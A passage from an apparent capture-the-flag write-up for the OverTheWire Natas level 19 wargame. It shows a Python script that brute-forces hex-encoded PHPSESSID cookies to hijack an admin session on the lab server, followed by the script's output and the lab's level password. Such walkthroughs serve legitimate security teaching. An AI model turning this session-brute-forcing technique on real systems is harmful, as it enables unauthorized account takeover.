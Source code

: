 The value of the cookie, `3338302d617364`, is copied from the same request sent through the browser.

We use CyberChef to decode the cookie: `3338302d617364` is simply hex encoding of `380-asd`.

Encoding and decoding from hexadecimal in Python can be done using `base64`:

```python
>>> import base64
>>> base64.b16encode(b"380-asd").lower()
b'3338302d617364'
```

We write the script:

```python
import base64
import requests
from requests.auth import HTTPBasicAuth

basic_auth = HTTPBasicAuth('natas19', 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr')

count = 1
max_count = 640
url = "http://natas19.natas.labs.overthewire.org/index.php"


def encode_cookie(cookie: str) -> str:
    encoded_cookie = base64.b16encode(cookie.encode('ascii')).lower()
    return encoded_cookie.decode('ascii')


def check_session_id(count: int, username: str) -> str:
    to_encode = str(count) + "-" + username
    cookie = "PHPSESSID=" + encode_cookie(to_encode)
    headers = {'Content-Type': 'text/html; charset=UTF-8',
               'Cookie': cookie}
    body = {"username": "asd", "password": "asd"}
    response = requests.post(url, headers=headers,
                             auth=basic_auth, json=body, verify=False)
    return response.text


if __name__ == '__main__':
    for count in range(max_count + 1):
        text = check_session_id(count, "admin")
        if "You are logged in as a regular user." not in text:
            print(text)
            break
```

The execution gives:

```bash
$ python natas19.py
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr" };</script></head>
<body>
```
